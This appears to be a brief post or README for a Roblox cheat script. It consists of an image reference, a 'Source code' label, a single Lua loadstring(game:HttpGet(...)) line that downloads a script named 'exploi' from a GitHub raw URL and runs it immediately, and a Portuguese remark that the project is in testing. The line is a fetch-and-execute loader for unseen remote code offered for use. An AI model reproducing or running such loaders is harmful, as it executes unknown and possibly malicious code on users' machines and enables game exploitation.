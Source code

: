 loadstring(game:HttpGet('https://raw.githubusercontent.com/20comer001/sec.lua/refs/heads/main/exploi'))()


lembrando astamos em faze de teste
